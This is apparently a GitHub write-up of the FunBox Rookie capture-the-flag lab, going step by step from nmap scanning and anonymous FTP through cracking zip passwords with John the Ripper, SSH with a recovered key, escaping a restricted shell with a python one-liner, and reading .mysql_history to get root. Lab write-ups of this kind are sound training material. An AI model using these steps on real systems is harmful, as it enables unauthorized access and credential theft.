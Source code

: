 *FunBox Rookie*  
**RECON**
---
**Ip Search**   
Apache Server  
![image19](https://user-images.githubusercontent.com/66635295/159421830-8e052a02-4fb1-42a7-bb76-a29384f7eb43.png)  


**Nmap Scan**  
<pre>nmap -sC -sV 192.168.52.107 </pre>  
-safe scripts -service version  
Anonymous FTP Login available, various visible zip files   
![image14](https://user-images.githubusercontent.com/66635295/159421862-50889fc0-271d-4119-b938-c878c7eebef6.png)  

**ENUMURATION**
---
<pre>ftp 192.168.52.107</pre>  
<pre>Name: anonymous </pre>  
<pre>Password: anonymous@domain.com </pre>    
![image5](https://user-images.githubusercontent.com/66635295/159422223-b78bc143-e7ca-4dad-8f8c-f0a2e94064af.png)  
**Grab zip Files**  
<pre> mget homer.zip john.zip tom.zip </pre>    
![image15](https://user-images.githubusercontent.com/66635295/159422555-864c3dc4-7503-48f3-93d4-69ae9dc76c4b.png)  
**Inspect File**  
Password locked id_rsa keys  
![image18](https://user-images.githubusercontent.com/66635295/159422579-2c509021-3e9f-4e53-9e29-198100978dda.png)  
**Change zip to Crack Passwords**    
 <pre> zip2john homer.zip homer.hash </pre>  
![image17](https://user-images.githubusercontent.com/66635295/159422865-d16a8a8c-a474-4ff5-aa2a-568b52fd8a9b.png)  
**Insall word list**  
<pre> rockyou.txt </pre>  
![image12](https://user-images.githubusercontent.com/66635295/159422892-ee67dea5-9ace-43a8-af9c-eed5e8b6236e.png)  
**Organize files into one directory**   
![image4](https://user-images.githubusercontent.com/66635295/159422979-7c4dfbd1-289d-4f12-8ac8-58bea37d4f15.png)  
**John the  Ripper**  
<pre> john --wordlist=$rockyou tom.hash </pre>  
![image3](https://user-images.githubusercontent.com/66635295/159423177-7d3650d4-892e-4514-af1f-9eec7a14fefa.png)  
**Extract tom.zip**  
<pre> iubire </pre>  
![image2](https://user-images.githubusercontent.com/66635295/159425066-154a9577-fa2b-4aae-a58f-105cf2776c57.png)  
Id_rsa key  
![image6](https://user-images.githubusercontent.com/66635295/159425574-e65d557f-e725-46bb-893a-acf582b37d25.png)  

**PRIVILEGE ESCALATION**
---
**SSH**  
<pre>  ssh -i id_rsa tom@192.168.52.107 </pre>  
Success logged in as tom  
![image10](https://user-images.githubusercontent.com/66635295/159425641-8fdceb4d-d295-4c66-86f0-880bfd29e74f.png)  
**Flag**  
<pre> cat local.txt  </pre>  
![image8](https://user-images.githubusercontent.com/66635295/159425808-c0e979c9-8554-4c2d-8349-9dbe9f98c006.png)  
Restricted Shell  
![image11](https://user-images.githubusercontent.com/66635295/159425861-3fc58b29-97e9-4023-aee7-03cd929aac54.png)  
**Checking Sudo Privileges**  
Tom can run all commands definitely worth pursuing  
![image9](https://user-images.githubusercontent.com/66635295/159426027-b8ee5bde-ba1b-4a8b-bf64-10696f627734.png)  
**Remove Shell Restrictions**  
<pre> python3 -c ‘import os; os.system(“/bin/bash”);’ </pre>  
![image7](https://user-images.githubusercontent.com/66635295/159426463-79d3e971-ccc3-4a57-a84a-ecc6ce5c9a92.png)  
**Check for hidden files**  
<pre>ls -la </pre>  
![image16](https://user-images.githubusercontent.com/66635295/159426482-c8a1c784-fca5-4e7a-b79c-423ee045c0f4.png)  
**Reading mysql_history**  
<pre> cat .mysql_history  </pre>  
Reveals password  
![image1](https://user-images.githubusercontent.com/66635295/159426632-25601f14-984b-4dce-b627-3014407b34a1.png)  

**ROOT ESCALATION**
---
**Root Flag**  
<pre> sudo su  </pre>  
<pre> xx11yy22!  </pre>  
<pre> cat  proof.txt  </pre>  
![image13](https://user-images.githubusercontent.com/66635295/159426848-a3dc6b3f-670c-4b69-a82c-aa354baa4b95.png)


